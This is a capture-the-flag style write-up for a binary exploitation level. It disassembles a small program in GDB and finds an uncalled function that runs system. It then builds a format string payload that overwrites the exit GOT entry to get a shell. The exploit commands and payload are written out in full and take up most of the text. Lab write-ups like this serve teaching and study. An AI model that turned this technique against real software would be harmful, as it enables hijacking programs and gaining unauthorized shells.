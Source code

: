 # Level5

First step - testing the program

	$ ./level5
	coucou
	coucou

The program wait an input and print it

Start it in GDB

	(gdb-peda)$ pdisas main
	Dump of assembler code for function main:
	   0x08048504 <+0>:		push   ebp
	   0x08048505 <+1>:		mov    ebp,esp
	   0x08048507 <+3>:		and    esp,0xfffffff0
	   0x0804850a <+6>:		call   0x80484c2 <n>
	   0x0804850f <+11>:	leave
	   0x08048510 <+12>:	ret
	End of assembler dump.

The main call a function "n"

	(gdb-peda)$ pdisas n
	Dump of assembler code for function n:
	   0x080484c2 <+0>:		push   ebp
	   0x080484c3 <+1>:		mov    ebp,esp
	   0x080484c5 <+3>:		sub    esp,0x218
	   0x080484cb <+9>:		mov    eax,ds:0x8049848
	   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
	   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
	   0x080484dc <+26>:	lea    eax,[ebp-0x208]
	   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
	   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
	   0x080484ea <+40>:	lea    eax,[ebp-0x208]
	   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
	   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
	   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
	   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
	End of assembler dump.

Just a fgets and a call to "printf" for print the buffer and exit

Let's see all the functions

	(gdb-peda)$ info functions
	All defined functions:

	Non-debugging symbols:
	0x08048334  _init
	0x08048380  printf@plt
	0x08048390  _exit@plt
	0x080483a0  fgets@plt
	0x080483b0  system@plt
	0x080483c0  __gmon_start__@plt
	0x080483d0  exit@plt
	0x080483e0  __libc_start_main@plt
	0x080483f0  _start
	0x08048420  __do_global_dtors_aux
	0x08048480  frame_dummy
	0x080484a4  o
	0x080484c2  n
	0x08048504  main
	0x08048520  __libc_csu_init
	0x08048590  __libc_csu_fini
	0x08048592  __i686.get_pc_thunk.bx
	0x080485a0  __do_global_ctors_aux
	0x080485cc  _fini

There is a non-called "o" function

	(gdb-peda)$ pdisas o
	Dump of assembler code for function o:
	   0x080484a4 <+0>:		push   ebp
	   0x080484a5 <+1>:		mov    ebp,esp
	   0x080484a7 <+3>:		sub    esp,0x18
	   0x080484aa <+6>:		mov    DWORD PTR [esp],0x80485f0
	   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
	   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
	   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
	End of assembler dump.

The function call "system" and exit

We should call this function using a format string attack

***************************

Search the position of our buffer

	$ python -c 'print "BBBB"+" %x"*5' | ./level5
	BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520

4th position

After the printf, there is a exit call. We can use it for overwrite it's address with the address of "o"

Get the address of exit in the GOT table

	(gdb-peda)$ info function exit
	All functions matching regular expression "exit":

	Non-debugging symbols:
	0x080483d0  exit@plt

	(gdb-peda)$ x/i 0x080483d0
	0x80483d0 <exit@plt>:	jmp    DWORD PTR ds:0x8049838

The address is "0x08049838"

Now, the address of the "o" function

	(gdb-peda)$ info function o
	All functions matching regular expression "o":

	Non-debugging symbols:
	0x080484a4  o

The address is "0x080484a4"

Ok, we have all the informations

************************************************

Build the payload

We need the number of bytes to write for the "%n" modifier

"0x080484a4" in decimal is "134513828" - the 4 bytes of the exit GOT address

	"exit GOT address" + "134513828 - 4 bytes" + "%4$n"

	python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"'

Let's go

	(python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' ; cat -) | ./level5

